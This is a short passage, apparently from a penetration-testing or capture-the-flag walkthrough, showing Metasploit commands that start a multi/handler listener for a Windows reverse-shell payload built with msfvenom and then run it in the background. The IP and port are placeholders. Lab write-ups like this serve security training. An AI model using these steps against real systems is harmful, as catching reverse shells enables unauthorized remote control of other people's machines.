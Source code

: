 ```shell
use exploit/multi/handler
```

Next we set the appropriate options like the same payload we created using msfvenom then set the Listener IP and Port.

```shell
set payload windows/shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

![](attachments/20230913101929.png)

Run the exploit in the background and enter into our previous meterpreter session:
```shell
exploit -j
```

![](attachments/20230913102154.png)
